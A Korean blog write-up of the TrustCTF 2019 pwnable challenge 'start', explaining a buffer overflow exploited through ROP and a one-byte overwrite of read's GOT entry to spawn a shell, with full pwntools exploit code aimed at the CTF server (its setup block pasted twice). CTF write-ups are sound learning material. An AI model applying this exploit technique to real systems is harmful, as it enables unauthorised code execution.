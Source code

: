 ```yaml
---
layout: post
title: ! "[TrustCTF 2019] start Write-up"
excerpt_separator: <!--more-->
comments : true
tags:
  - KRater
  - Write-up
  - CTF
---
```


TrustCTF에 나왔던 가장 쉬운 `pwnable` 문제였던 start 풀이.


<!--more-->

### 문제

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic01.PNG)

간단한 BOF문제인데 read 이후 프로그램이 끝나고, write는 주지도 않는다.

같은 팀원한테 물어봐서 바보소리 듣고 read 함수 안에있는 syscall 쓰라고 해서 풀었다 헤헤..

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic02.PNG)

ROP 하라고 대놓고 가젯폭탄도 던져준다.

버퍼사이즈 빡빡하긴 한데 이게 있어서 전부 구겨넣을 수 있다.

![]({{ site.baseurl }}/images/KRater/2019-03-07-start-writeup/pic03.PNG)

주어진 libc에서 read 함수 안에있는 syscall 위치를 찾는다.

### Stage 1

```python
payload1 = "A"*16
payload1 += p64(real_rbp)
payload1 += p64(pop4_ret)
payload1 += p64(0)
payload1 += p64(8)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(read_plt)
payload1 += p64(main_addr)
#print (len(payload1))
r.send(payload1)
r.send("/bin/sh\x00")
```

bss 영역에 `/bin/sh`를 써 넣는다.

그리고 다시 main 함수로 돌아간다.

### Stage 2

```python
payload2 = "B" * 16
payload2 += p64(real_rbp)
payload2 += p64(pop4_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(0)
payload2 += p64(read_got)
payload2 += p64(read_plt)
payload2 += p64(pop4_ret)
payload2 += p64(0x3b)
payload2 += p64(0)
payload2 += p64(bss_addr)
payload2 += p64(0)
payload2 += p64(read_plt)
#print (len(payload2))
r.send(payload2)
r.send("\x7b")
```

그다음은 read got 영역을 1바이트만 쓴다. (syscall 주소, 0x7b)

이제 read가 syscall이 됬으니까 bss 영역에 쓴 `/bin/sh`를 활용해서 쉘을 따주면 된다 ^0^

### Exploit Code

```python
from pwn import *
  
HOST = "server.trustctf.com"
PORT = 10392
r = remote(HOST, PORT)
#r = process("./start")

pop4_ret = 0x4005EA # pop rax rdx rdi rsi
bss_addr = 0x601058
main_addr = 0x4005F2
read_got = 0x601018
read_plt = 0x4004B0
real_rbp = 0x400660

from pwn import *

HOST = "server.trustctf.com"
PORT = 10392
r = remote(HOST, PORT)
#r = process("./start")

pop4_ret = 0x4005EA # pop rax rdx rdi rsi
bss_addr = 0x601058
main_addr = 0x4005F2
read_got = 0x601018
read_plt = 0x4004B0
real_rbp = 0x400660

payload1 = "A"*16
payload1 += p64(real_rbp)
payload1 += p64(pop4_ret)
payload1 += p64(0)
payload1 += p64(8)
payload1 += p64(0)
payload1 += p64(bss_addr)
payload1 += p64(read_plt)
payload1 += p64(main_addr)
#print (len(payload1))
r.send(payload1)
r.send("/bin/sh\x00")

payload2 = "B" * 16
payload2 += p64(real_rbp)
payload2 += p64(pop4_ret)
payload2 += p64(0)
payload2 += p64(1)
payload2 += p64(0)
payload2 += p64(read_got)
payload2 += p64(read_plt)
payload2 += p64(pop4_ret)
payload2 += p64(0x3b)
payload2 += p64(0)
payload2 += p64(bss_addr)
payload2 += p64(0)
payload2 += p64(read_plt)
#print (len(payload2))
r.send(payload2)
r.send("\x7b")

#r.sendline("cat flag")

r.interactive()
```

쉬운 문제였지만 감을 잃지 않으려면 꾸준히 노력해야 한다는 것을 깨닫게 해 준 고마운 문제였다.